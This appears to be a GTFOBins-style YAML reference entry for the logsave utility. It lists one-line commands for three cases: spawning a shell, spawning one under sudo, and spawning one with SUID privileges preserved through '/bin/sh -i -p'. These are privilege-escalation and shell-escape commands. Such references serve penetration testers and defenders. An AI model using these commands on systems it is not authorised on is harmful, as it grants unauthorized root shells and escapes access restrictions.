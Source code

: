 functions:
  shell:
    - code: logsave /dev/null /bin/sh -i
  sudo:
    - code: sudo logsave /dev/null /bin/sh -i
  suid:
    - code: ./logsave /dev/null /bin/sh -i -p
---
